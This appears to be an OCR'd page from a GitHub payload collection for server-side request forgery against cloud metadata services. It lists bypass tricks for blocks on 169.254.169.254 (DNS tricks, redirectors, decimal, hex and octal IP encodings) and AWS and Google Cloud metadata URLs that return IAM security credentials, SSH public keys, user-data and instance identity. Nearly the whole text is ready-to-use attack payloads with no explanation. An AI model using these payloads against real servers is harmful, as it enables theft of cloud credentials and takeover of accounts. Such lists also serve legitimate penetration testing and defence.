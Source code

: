 ```
DNS record

http://instance-data
http://169.254.169.254
http://metadata.nicob.net/
http://169.254.169.254.xip.io/
http://1ynrnhl.xip.io/
http://www.owasp.org.1ynrnhl.xip.io/

HTTP redirect

Static:http://nicob.net/redir6a
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-

Alternate IP encoding

http://425.510.425.510/ Dotted decimal with overflow
http://2852039166/ Dotless decimal
http://7147006462/ Dotless decimal with overflow
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
http://0xA9FEA9FE/ Dotless hexadecimal
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
http://0251.0376.0251.0376/ Dotted octal
http://0251.00376.000251.0000376/ Dotted octal with padding

More urls to include

http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```

### **[Google Cloud](ttps://cloud.google.com/compute/docs/metadata)**

```
# **- Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"**
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id

# **Google allows recursive pulls**
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true

## **Google**
# **Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)**
http://metadata.google.internal/computeMetadata/v1beta1
```
